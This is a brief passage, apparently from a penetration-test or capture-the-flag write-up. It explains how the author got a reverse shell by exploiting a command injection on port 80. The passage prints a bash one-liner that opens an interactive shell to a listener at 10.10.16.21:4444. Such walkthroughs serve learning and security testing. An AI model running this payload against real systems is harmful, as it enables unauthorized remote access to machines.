 <hr>

# Exploitation Command Injection port 80

From the finding in [[Vulnerability assessment port 9999]] now it's time to get access to the server machine via a reverse shell exploiting the command injection vulnerability.

For that purpouse I used the following payload:

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.21/4444 0>&1" 
```

Following the same process and URL encoding the payload I obtained a reverse shell to the server machine.

![[port80_reverse_shell.png]]

[[Exploitation Server Machine]]



